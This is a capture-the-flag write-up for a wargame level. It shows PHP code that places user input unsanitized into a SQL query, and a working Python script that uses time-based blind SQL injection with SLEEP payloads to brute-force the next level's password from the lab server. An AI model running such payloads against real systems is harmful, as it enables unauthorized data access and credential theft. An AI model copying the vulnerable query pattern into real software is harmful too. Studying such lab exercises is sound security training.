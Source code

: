 ```php=
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysqli_query($link, $query);
    if($res) {
    if(mysqli_num_rows($res) > 0) {
        //echo "This user exists.<br>";
    } else {
        //echo "This user doesn't exist.<br>";
    }
    } else {
        //echo "Error in query.<br>";
    }

    mysqli_close($link);
} else {
?>
```
Another SQL injection challenge.
This level is different from level 15, as the website does not return anything to the screen because the `echo` commands is in comments.
I have to find an other way to know whether a username is exists or not.
I can try applying 'Time-based blind SQL injection', it means adding a sleep() when the return value is true, to distinguish it from the false one.
Write a short Python script like the previous level:
```python
import requests
import string
import sys

url = 'http://natas17.natas.labs.overthewire.org/'
username = 'natas17'
password = 'EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC'

characters = string.ascii_letters + string.digits

passwordFound = ''

sql1 = 'natas18" AND password LIKE BINARY "'
sql2 = '"AND SLEEP(5)-- ' 

s = requests.Session()
s.auth = (username, password)

while len(passwordFound) < 32:
    for char in characters:
        payload = sql1 + passwordFound + char + '%' + sql2
        data = {'username': payload}
        response = s.post(url, data=data)
        if response.elapsed.total_seconds() >= 5:
            passwordFound += char
            print(passwordFound)
            break
```
